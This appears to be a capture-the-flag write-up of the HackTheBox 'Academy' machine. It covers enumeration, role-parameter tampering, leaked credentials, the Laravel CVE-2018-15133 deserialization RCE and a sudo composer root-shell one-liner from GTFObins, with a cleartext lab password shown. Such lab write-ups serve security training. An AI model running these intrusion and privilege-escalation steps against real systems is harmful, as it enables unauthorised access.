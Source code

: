 ```yaml
---
title: (HTB) - Academy
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2022-09-22 11:33:00 +0200
categories: [HackTheBox, Linux]
tags: [Linux,Apache, PHP, Deserialization, CVE-2018-15133, Laravel, Sudo Exploitation, CVE-2017-16894, Public Vulnerabilities, JWT, Clear Text Credentials, Password Reuse, CVE Exploitation, Group Membership]
math: true
mermaid: true
image:
  src: /assets/images/c8acecba42ca6f9e9b8ed126435cdb235a5359a7998cd21086a1fa981d5d2236.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Academy is a new product from hack the box and this box gives a preview into it. This box however unlike the real HTB Academy has been made vulnerable** 

# ENUMERATION
## NMAP
Let's start NMAP
```
22/tcp open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:90:a3:d8:35:25:6f:fa:33:06:cf:80:13:a0:a5:53 (RSA)
|   256 2a:d5:4b:d0:46:f0:ed:c9:3c:8d:f6:5d:ab:ae:77:96 (ECDSA)
|_  256 e1:64:14:c3:cc:51:b2:3b:a6:28:a7:b1:ae:5f:45:35 (ED25519)
80/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to http://academy.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see that there is port 80 open which seems most insteressting so far.

## WebPage
	
> Add the `academy-.htb` to hosts file. 

Register to academy and login:
![picture 24](/assets/images/634e358fa53a49ee32b2aad6a0f7896221b93503c9e4c864d0c2d173420074db.png)  

I've checked the source code but there is nothing linked.

I noticed there are 2 portals available, login for users and admin.`admin.php`.

While registering there it is possible to change the role with `roleid` parameter.
![picture 25](/assets/images/61a0095797e9c1146669275ba9f211c4548a8a66c20e83e99938684d9e88ca4c.png)

This enabled login to `admin.php`, and there we can find some hints:
![picture 26](/assets/images/fb5a4a3a87ce5db7e47765856ec90a548377ba1ba4176effe9694e9a2ea30f28.png)

Let us put `dev-staging-01.academy.htb` to the hosts file and check it out:
![picture 27](/assets/images/4e9262ca8a9b72d54b1ae4a2f5d17ef5d7c861afa67908a4f8f3250d9fa43680.png)

There we can find DB credentials

![picture 28](/assets/images/52f5ea99f2917a858a8c2a3a8afbacb0046301ea2da533060b2703e842067002.png)

And there is also a API key, but there is also vulnerability present in laravel framework for this version:

> This module exploits a vulnerability in the PHP Laravel Framework for versions 5.5.40, 5.6.x <= 5.6.29. Remote Command Execution is possible via a correctly formatted HTTP X-XSRF-TOKEN header, due to an insecure unserialize call of the decrypt method in Illuminate/Encryption/Encrypter.php. Authentication is not required, however exploitation requires knowledge of the Laravel APP_KEY. Similar vulnerabilities appear to exist within Laravel cookie tokens based on the code fix. In some cases the APP_KEY is leaked which allows for discovery and exploitation.

![picture 29](/assets/images/8fdf5c7aa7dafc53c026b48dc4ebff690bba440c856f7afc61070f5b7ce4cd50.png)

Running it gives us shell:

![picture 30](/assets/images/32da3a270d38091ba91db231a3f25713f50465369e104d36403f913ea5fcc2f6.png)

Linpeas has found quite a few passwords but only this looks promising since it is not from the dev stage...

![picture 31](/assets/images/d52eaa7d0136547ccfedbfccc715fa2ae1f1acb1787ed122f5588b4cc7b926ff.png)

Password won't work for mysql but it will work for `cry0l1t3` user!

![picture 32](/assets/images/0e0a8efdde5485992fe85c5911d4df1806e6c05b4dcd24271f0b423f819cee34.png)

Same creds will work for SSH!

# PRIVILEGE ESCALATION

Running `Linpeas.sh` again has found following credentials. This was possible as the `cry0l1t3` user belongs to adm group
```
[+] Checking for TTY (sudo/su) passwords in audit logs
1. 08/12/2020 02:28:10 83 0 ? 1 sh "su mrb3n",<nl>
2. 08/12/2020 02:28:13 84 0 ? 1 su "mrb3n_Ac@d3my!",<nl>
```

And logging in as user `mrb3n` now, we can see that it can run composer with sudo rights:

```
mrb3n@academy:/var/log$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
	  env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
User mrb3n may run the following commands on academy:
	  (ALL) /usr/bin/composer
```

Reference GTFObins: https://gtfobins.github.io/gtfobins/composer/

```	
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Running commands above grant us root access:

![picture 33](/assets/images/daa8887a1b5ebd116bd5c1e5e3b35870a6d4fe732db020432c7e235b438367f5.png)
